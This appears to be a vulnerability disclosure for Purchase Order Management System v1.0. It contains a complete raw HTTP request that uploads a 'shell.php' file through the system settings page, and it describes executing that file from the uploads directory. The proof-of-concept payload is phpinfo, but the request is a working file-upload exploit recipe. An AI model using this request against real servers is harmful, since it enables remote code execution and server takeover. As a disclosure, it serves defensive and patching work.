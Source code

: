 # Purchase Order Management System v1.0 by oretnom23 has Any file upload
vendors: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability url: /purchase_order/admin/?page=system_info

Request package for file upload:

```
POST /purchase_order/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
Content-Length: 880
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4kTb0mE24bRNykxY
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=s87kdnnrqs6s4qkbpf0vps3gi4
Connection: close

------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="name"

s
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="short_name"

b
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="company_name"

v
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="company_email"

d
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="company_address"

e
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundary4kTb0mE24bRNykxY
Content-Disposition: form-data; name="cover"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundary4kTb0mE24bRNykxY--
```

The file will be uploaded to the uploads directory

![image](https://github.com/lcg-22266/bug_pic/blob/main/upload.png)

We visit the url of the shell.php file and find that the code has been executed

Url: http://ip/purchase_order/uploads/1666942320_shell.php

![image](https://github.com/lcg-22266/bug_pic/blob/main/info.png)


